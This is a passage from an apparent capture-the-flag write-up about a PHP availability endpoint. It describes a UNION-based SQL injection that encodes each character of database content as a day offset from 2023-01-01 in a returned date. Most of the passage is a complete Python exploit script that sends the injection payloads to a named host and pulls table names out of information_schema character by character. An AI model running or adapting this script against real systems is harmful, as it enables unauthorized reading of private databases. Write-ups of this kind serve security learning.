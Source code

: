 However, the big difference between this question and the previous one is that we can control the output of start_time and end_time in the response data. Although these two values must be dates, we can smuggle the data we want to return inside the date.

My approach is to turn the data I want to return into a date. We can first get the nth character in the data, assuming that it will be x after being converted to ascii. We can treat this as meaning "x days". We add `x*3600*24` to the timestamp of `2023-01-01` (1672502400) to get a new timestamp as end_time, which is then converted to a date in PHP.

After obtaining the date from the response, we can calculate how many days have passed since `2023-01-01`. We convert the date back to a timestamp, subtract 1672502400, and then divide by 86400 (`3600*24`) to get the number of days. For example, if it is 98 days, it means that the character we read was chr(98), which is b, and we have obtained one character.

Therefore, by smuggling the ascii code in the date, we can obtain one character of data each time we perform an operation. The code is as follows:

``` python
# exploit-ava.py
import requests
import datetime
import json
import urllib.parse
import time

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = urllib.parse.quote(fr.encode('utf8'))
start = time.time()
while True:
  payload = f'ascii(SUBSTRING({field},{index}))*86400%2b{base_time}'
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{payload},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index +=1
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      result += chr(int(diff/86400))
      print(result)
  else:
    print('error')
    break

print(f"time: {time.time() - start}s")
```
